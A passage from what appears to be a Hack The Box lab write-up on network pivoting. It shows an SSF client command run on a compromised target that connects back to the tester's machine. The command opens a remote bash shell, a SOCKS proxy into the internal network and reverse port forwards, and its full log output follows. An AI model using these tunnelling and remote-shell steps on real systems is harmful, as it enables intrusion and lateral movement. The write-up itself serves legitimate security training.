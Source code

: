 

    # ./ssf -g -F 1080 -Y 1111 -L 172.19.0.4:2222:10.10.14.3:2222 -L 172.19.0.4:3333:10.10.14.3:3333 10.10.14.3
    [2019-01-23T20:04:34+00:00] [info] [config] loading file <config.json>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] CA cert path: <file: ./certs/trusted/ca.crt>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] cert path: <file: ./certs/certificate.crt>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] key path: <file: ./certs/private.key>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] key password: <>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] dh path: <file: ./certs/dh4096.pem>
    [2019-01-23T20:04:34+00:00] [info] [config] [tls] cipher suite: <DHE-RSA-AES256-GCM-SHA384>
    [2019-01-23T20:04:34+00:00] [info] [config] [http proxy] <None>
    [2019-01-23T20:04:34+00:00] [info] [config] [socks proxy] <None>
    [2019-01-23T20:04:34+00:00] [info] [config] [microservices][shell] path: </bin/bash>
    [2019-01-23T20:04:34+00:00] [info] [config] [circuit] <None>
    [2019-01-23T20:04:34+00:00] [info] [ssf] connecting to <10.10.14.3:8011>
    [2019-01-23T20:04:34+00:00] [info] [ssf] running (Ctrl + C to stop)
    [2019-01-23T20:04:34+00:00] [info] [client] connection attempt 1/1
    [2019-01-23T20:04:34+00:00] [info] [client] connected to server
    [2019-01-23T20:04:34+00:00] [info] [client] running
    [2019-01-23T20:04:35+00:00] [info] [microservice] [shell]: start server on fiber port 1111
    [2019-01-23T20:04:35+00:00] [info] [client] service <remote-shell> OK
    [2019-01-23T20:04:35+00:00] [info] [microservice] [socks]: start server on fiber port 1080
    [2019-01-23T20:04:35+00:00] [info] [client] service <remote-socks> OK
    [2019-01-23T20:04:35+00:00] [info] [microservice] [stream_listener]: forward TCP connections from <172.19.0.4:2222> to 2222
    [2019-01-23T20:04:35+00:00] [info] [client] service <tcp-forward> OK
    [2019-01-23T20:04:35+00:00] [info] [microservice] [stream_listener]: forward TCP connections from <172.19.0.4:3333> to 3333
    [2019-01-23T20:04:35+00:00] [info] [client] service <tcp-forward> OK



I now have following setup:

-   Listening socket on `kali:1080` that is providing a SOCKS proxy to
    the network behind the target.
-   Listening socket on `kali:1111` that is providing a shell to the
    target.
-   Tunnels from target box back to local sockets for future shells or
    file uploads.

## Summary

Both Chisel and SSF are neat frameworks that I can use to enable
pivoting when ssh and forward connections in-bound aren't independently
possible. These are both tools I'll keep in my tool box moving forward.

Thanks to [jkr](https://www.hackthebox.eu/home/users/profile/77141) for
putting together much of the notes and documentation for the SSF
section.





